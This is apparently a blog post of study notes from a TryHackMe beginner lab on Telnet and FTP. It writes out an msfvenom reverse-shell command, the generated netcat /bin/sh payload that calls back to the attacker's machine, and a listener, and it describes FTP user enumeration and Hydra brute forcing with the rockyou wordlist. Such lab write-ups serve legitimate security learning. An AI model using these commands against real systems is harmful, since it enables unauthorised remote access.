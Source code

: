```yaml
---
title: 'TryHackMe: Complete Beginner'
date: 2021-10-02 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2021-10-02-tryhackme-complete-beginner.html
author: 100007
---
```


# Network Services

## Exploiting Telnet

```
# Listen for ICMP ping packets on an interface:
#
sudo tcpdump ip proto \icmp -i $IFACE

# Use Metasploit to generate the code for a remote shell:
# 
msfvenom -p cmd/unix/reverse_netcat lhost=$LOCAL_IP \
	lport=$LOCAL_PORT R

# Spin up a listener using netcat:
#
nc -lvp $LOCAL_PORT
```

In this exercise, Metasploit generates code that looks like this:

```
mkfifo /tmp/qdsrgu; \
	nc $LOCAL_IP $LOCAL_PORT 0</tmp/qdsrgu | \
	/bin/sh >/tmp/qdsrgu 2>&1; \
	rm /tmp/qdsrgu
```

($LOCAL\_IP and $LOCAL\_PORT aren’t literal - they’re _actually_ the local IP address of my machine on TryHackMe’s VPN and my chosen port. Neither of which should be particularly sensitive, but I’m still not going to post it on the internet!)

What’s going on here?

- `mkfifo /tmp/qdsrgu` creates a named pipe at /tmp/qdsrgu.
- We then spin up a netcat instance directed at our local machine (`nc $LOCAL_IP $LOCAL_PORT`), direct the contents of the pipe into netcat’s STDIN (`0< /tmp/qdsrgu`), pipe the _output_ of netcat to a shell we know probably exists (`| /bin/sh`), and finally redirect _both_ STDOUT and STDERR back into the named pipe (`> /tmp/qdsrgu 2>&1`).
- On the local machine, `nc -lvp $LOCAL_PORT` listens for the incoming netcat connection from the remote. Anything we type on STDIN here gets sent to the remote and piped to /bin/sh _there_. The output of /bin/sh is then sent to the named pipe, which dumps into (the remote) netcat, which then sends the data to the local machine where it ends up on STDOUT.

## Understanding FTP

The active vs. passive FTP distinction is about how the _server_ handles establishing the data channel (the command channel is always set up by the client connecting to the server).

Active FTP: The client opens a port which the server _actively_ connects to when establishing the data channel.

Passive FTP: The server opens a port which the client connects to when establishing the data channel.

- [File Transfer Protocol (Wikipedia)](https://en.wikipedia.org/wiki/File_Transfer_Protocol)

## Enumerating FTP

FTP denotes user accounts using a leading tilde; thus `cwd ~admin` will attempt to change the current working directory to the home directory of the `admin` user. Some (older) FTP daemons have a vulnerability where they allow the use of the `cwd` directory before login, and will return an error when attempting to change to a non-existent user directory.

Use nmap’s -sV option to attempt to probe for the service name and version information behind an open port.

Anonymous FTP logins, if allowed, use the username `anonymous` and a blank password.

- [Solaris 2.6/7.0 - IN.FTPD CWD ‘Username’ Enumeration](https://www.exploit-db.com/exploits/20745)

## Exploiting FTP

Hydra can directly try to brute force passwords on remote machines.

Kali’s rockyou.txt.gz is apparently a list of 14 million passwords dumped during the hack of some service called RockYou that I hadn’t previously heard of. Apparently RockYou was a social network that allowed direct connection to other social networks (including Facebook and MySpace)… And stored all of the relevant passwords (including their own) in the clear!

- [rockyou.txt wordlist](https://github.com/zacheller/rockyou)
- [RockYou Hack: From Bad To Worse](https://techcrunch.com/2009/12/14/rockyou-hack-security-myspace-facebook-passwords/)
